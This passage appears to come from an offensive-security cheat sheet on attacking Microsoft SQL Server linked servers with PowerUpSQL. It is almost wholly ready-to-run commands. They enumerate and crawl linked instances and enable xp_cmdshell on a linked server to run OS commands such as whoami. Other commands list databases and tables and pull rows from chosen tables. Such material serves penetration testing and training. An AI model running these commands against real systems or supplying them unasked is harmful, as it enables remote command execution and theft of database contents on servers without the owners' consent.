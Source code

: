 
```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
```

### Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

### Query Version of Linked Database


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

### Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```

### Determine Names of Linked Databases 

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

### Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```

### Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```
